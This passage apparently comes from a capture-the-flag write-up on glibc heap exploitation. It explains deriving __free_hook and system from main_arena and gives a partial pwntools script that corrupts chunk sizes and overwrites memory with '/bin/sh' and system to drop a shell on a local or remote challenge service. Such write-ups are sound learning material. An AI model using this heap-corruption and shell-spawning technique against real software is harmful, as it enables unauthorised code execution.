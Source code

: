 With `&main_arena+96` we can then determine `&__free_hook` and `system` and therefore execute the exploit as described before.

Note: `main_arena` is usually not exported in a libc without debug symbols, but we can still determine its location using techiques described e.g. here: <https://github.com/bash-c/main_arena_offset>

## Putting it all together

We put all of the above together in the following python script:

```python
#!/usr/bin/env python3

from pwn import *

def StrToQWord(s):
    out = 0
    i = 0
    for char in s:
        out |= (ord(char) << (8*i))
        i+= 1
    return out

def SizePInUse(size):
    return (size << 3) | 1

def DropShell(conn, system):
    payload = [StrToQWord("/bin/sh")] * 4 + [system]
    n = len(payload)
    q = 0
    conn.sendline(bytes(str(n), 'ascii'))
    conn.sendline(bytes(str(q), 'ascii'))
    for i in range(n):
        conn.sendline(bytes(str(payload[i]), 'ascii'))

def AllocVector(conn, contents, corruptSize=-1):
    n = len(contents)
    q = 1
    if corruptSize != -1:
        q += 1
    conn.sendline(bytes(str(n), 'ascii'))
    conn.sendline(bytes(str(q), 'ascii'))
    for i in range(n):
        conn.sendline(bytes(str(contents[i]), 'ascii'))
    conn.sendline(b"0")
    conn.sendline(bytes(str(len(contents)+1), 'ascii'))
    rval = int(conn.recvline())
    if corruptSize != -1:
        conn.sendline(b"1")
        conn.sendline(b"0")
        conn.sendline(bytes(str(corruptSize), 'ascii'))
    return rval


mode = "local" # or remote

if mode == "local":
    r = process('./cev')
elif mode == "remote":
    r = remote('santapwn.owasp.si', 7478)

### some large `t`, in the end we will control RIP anyways

r.sendline(b"2000000")
```